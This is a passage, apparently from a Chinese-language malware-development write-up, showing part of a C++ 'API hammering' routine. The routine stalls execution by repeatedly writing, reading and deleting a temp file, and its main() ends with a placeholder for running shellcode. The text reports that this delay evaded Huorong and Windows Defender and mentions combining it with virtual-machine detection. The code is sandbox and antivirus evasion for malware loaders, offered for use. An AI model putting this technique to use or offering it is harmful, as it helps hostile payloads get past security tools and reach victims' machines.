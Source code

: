 ```c++
		if (!WriteFile(hWFile, pRandBuffer, sBufferSize, &dwNumberOfBytesWritten, NULL) || dwNumberOfBytesWritten != sBufferSize) {
			printf("[!] WriteFile Failed With Error : %d \n", GetLastError());
			printf("[i] Written %d Bytes of %d \n", dwNumberOfBytesWritten, sBufferSize);
			return FALSE;
		}

		RtlZeroMemory(pRandBuffer, sBufferSize);
		CloseHandle(hWFile);

		if ((hRFile = CreateFileW(szPath, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_TEMPORARY | FILE_FLAG_DELETE_ON_CLOSE, NULL)) == INVALID_HANDLE_VALUE) {
			printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		if (!ReadFile(hRFile, pRandBuffer, sBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != sBufferSize) {
			printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
			printf("[i] Read %d Bytes of %d \n", dwNumberOfBytesRead, sBufferSize);
			return FALSE;
		}

		RtlZeroMemory(pRandBuffer, sBufferSize);
		HeapFree(GetProcessHeap(), NULL, pRandBuffer);

		CloseHandle(hRFile);
	}

	return TRUE;
}


int main() {

	if (!ApiHammering(SECTOSTRESS(5))) {
		return -1;
	}
    //执行shellcode
}
```



#### 实战实验

使用API hammering延时执行后，火绒和defender均为查杀

配合虚拟机检测：https://s.threatbook.com/report/file/2fd3618caa76e4d988d79d21c612e7b8600aab16aa43caa79d0b44de25489587
